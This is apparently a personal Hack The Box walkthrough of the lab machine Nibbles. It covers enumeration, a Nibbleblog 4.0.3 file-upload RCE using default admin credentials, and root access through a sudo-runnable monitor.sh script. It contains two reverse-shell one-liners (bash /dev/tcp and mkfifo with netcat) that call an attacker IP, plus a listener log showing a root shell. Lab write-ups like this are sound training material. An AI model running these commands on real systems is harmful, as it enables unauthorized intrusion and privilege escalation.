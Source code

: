 # Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Proof

![image.png](Assets/nibbles1.png)